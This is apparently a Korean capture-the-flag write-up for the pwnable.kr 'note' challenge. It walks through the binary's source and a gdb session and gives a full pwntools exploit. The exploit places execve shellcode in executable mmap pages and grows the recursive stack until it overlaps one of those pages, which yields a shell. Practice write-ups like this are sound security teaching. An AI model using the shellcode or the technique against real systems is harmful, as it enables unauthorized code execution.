 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-21-18-44-20.png)


# **Write-Up**

파일 정보를 보자.

```sh
note@pwnable:~$ checksec note
[*] '/home/note/note'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

select_menu함수를 보면 return을 만나지 않는 이상 재귀호출을 한다.

```cpp
void select_menu(){
	// menu
	int menu;
	char command[1024];
	
	printf("- Select Menu -\n");
	printf("1. create note\n");
	printf("2. write note\n");
	printf("3. read note\n");
	printf("4. delete note\n");
	printf("5. exit\n");
	scanf("%d", &menu);
	clear_newlines();

	switch(menu){
		case 1:
			create_note();
			break;

		case 2:
			write_note();
			break;

		case 3:
			read_note();
			break;

		case 4:
			delete_note();
			break;

		case 5:
			printf("bye\n");
			return;

		case 0x31337:
			printf("welcome to hacker's secret menu\n");
			printf("i'm sure 1byte overflow will be enough for you to pwn this\n");
			fgets(command, 1025, stdin);
			break;

		default:
			printf("invalid menu\n");
			break;
	}

	select_menu();
}
```

menu와 command변수를 선언하기 때문에 stack의 크기도 꾀나 잡아먹는데, 재귀호출에 의해서 select_menu가 호출될 때마다, 계속 스택이 커진다.

(ESP : 0xFFC0B520 -> 0xFFC0B0F0 -> 0xFFC0ACC0 -> 0xFFC0A890 ...)

![](images/2022-01-21-18-58-39.png)

create_note함수는 4096byte만큼 rwxp권한이 할당된 랜덤 주소를 얻어 mem_arr배열에 넣고 이를 출력해준다.

(mem_arr : c1742000 -> c1758000 -> bdf1c000)

```cpp
#define PAGE_SIZE 4096
...생략...
void create_note(){
	int i;
	void* ptr;
	for(i=0; i<256; i++){
		if(mem_arr[i] == NULL){
			ptr = mmap_s((void*)NULL, PAGE_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
			mem_arr[i] = ptr;
			printf("note created. no %d\n [%08x]", i, (int)ptr);	
			return;
		}
	}
	printf("memory sults are fool\n");
	return;
}
```

대충 스택 주소를 확인하자.

```sh
note@pwnable:~$ gdb -q ./note
Reading symbols from ./note...(no debugging symbols found)...done.
... 생략 ...
(gdb) disas select_menu
Dump of assembler code for function select_menu:
   0x080488e5 <+0>:     push   %ebp
   0x080488e6 <+1>:     mov    %esp,%ebp
   0x080488e8 <+3>:     sub    $0x428,%esp
   0x080488ee <+9>:     movl   $0x8048d66,(%esp)
... 생략 ...
(gdb) b *select_menu+9
Breakpoint 1 at 0x80488ee
(gdb) r
Starting program: /home/note/note
welcome to pwnable.kr

recently I noticed that in 32bit system with no ASLR,
 mmap(NULL... gives predictable address

I believe this is not secure in terms of software exploit mitigation
so I fixed this feature and called mmap_s

please try out this sample note application to see how mmap_s works
you will see mmap_s() giving true random address despite no ASLR

I think security people will thank me for this :)


Breakpoint 1, 0x080488e8 in select_menu ()
(gdb) x/i $esp
   0xffffd7e0:  add    $0x0,%al
(gdb) x/i $ebp
   0xffffdc08:  sub    %bl,%ah
```

readme를 읽어보면 9019번 포트로 리스닝 중이라고 한다.

```sh
the "note" binary will be executed under note_pwn privilege if you connect to port 9019.
execute the binary by connecting to daemon(nc 0 9019) then pwn it, then get flag.
* ASLR is disabled for this challenge
```

처음에 create_note를 통해 주소를 할당받고, 쉘코드를 넣어놓고, create_note와 delete_note를 사용하여 esp를 계속 줄여주자.

esp가 줄어들면서, 할당받는 주소가 esp와 겹칠경우, shell_code가 들어있는 주소를 적고 exit을 통해 return하여 shell_code를 실행시키자.

```py
note@pwnable:~$ mkdir -p /tmp/2honrr_note
note@pwnable:~$ cd /tmp/2honrr_note
note@pwnable:/tmp/2honrr_note$ vi exploit.py

from pwn import *

shell_code = b'\x31\xc0\x50\xba\x2e\x2e\x72\x67\x81\xc2\x01\x01\x01\x01\x52\xb9\x2e\x62\x69\x6e\x83\xc1\x01\x51\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
esp_addr   = 0xffffd7e0

mem_arr = []
r = remote('127.0.0.1', 9019)

r.sendlineafter('5. exit\n', '1')
r.recvuntil('[')
data = r.recvline()
shell_code_addr = int(data.split(']')[0], base=16)
log.info('shell_code_addr\t: {}'.format(hex(shell_code_addr)))

r.sendlineafter('5. exit\n', '2')
r.sendlineafter('?\n', '0')
r.sendlineafter('paste your note (MAX : 4096 byte)\n', b'\x90' * 10 + shell_code)

while True:
    esp_addr -= 0x428
    r.sendlineafter('5. exit\n', '1')
    r.recvuntil('[')
    data = r.recvline()
    mem_arr.append(int(data.split(']')[0], base=16))
    log.info('[{}]\tMEM: {} ~ {}\tESP: {}'.format(len(mem_arr), hex(mem_arr[-1]), hex(mem_arr[-1] + 0x1000), hex(esp_addr)))

    if esp_addr < mem_arr[-1]: break

    if len(mem_arr) == 255:
        for i in range(1, len(mem_arr) + 1):
            esp_addr -= 0x428 
            r.sendlineafter('5. exit\n', '4')
            r.sendlineafter('?\n', str(i))
            log.info('[{}] delete'.format(i))
        mem_arr = []

r.sendlineafter('5. exit\n', '2')
r.sendlineafter('?\n', str(len(mem_arr)))
r.sendlineafter('paste your note (MAX : 4096 byte)\n', p32(shell_code_addr) * 1024)
r.sendlineafter('5. exit\n', '5')
r.interactive()

note@pwnable:/tmp/2honrr_note$ python exploit.py
```


# **FLAG**

**FYI mmap_s stands for mmap_stupid :p**